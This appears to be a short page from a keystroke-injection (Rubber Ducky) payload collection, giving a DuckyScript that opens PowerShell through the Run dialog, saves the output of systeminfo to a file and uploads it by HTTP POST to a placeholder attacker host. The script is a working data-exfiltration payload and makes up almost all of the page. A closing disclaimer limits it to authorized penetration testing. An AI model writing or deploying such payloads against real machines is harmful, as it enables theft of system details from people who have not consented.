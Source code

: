 # Exfiltrating System Information to Remote Server

Collects system information and sends it to a remote server.

```
DELAY 500
GUI r
DELAY 200
STRING powershell -Command "systeminfo | Out-File 'C:\\system_info.txt'; Invoke-WebRequest -Uri 'http://attacker_ip/upload' -Method POST -InFile 'C:\\system_info.txt'"
ENTER
```

> Disclaimer: This script is for educational purposes and should only be used in environments where you have explicit authorization to perform penetration testing. Always follow ethical guidelines and laws governing cybersecurity practices.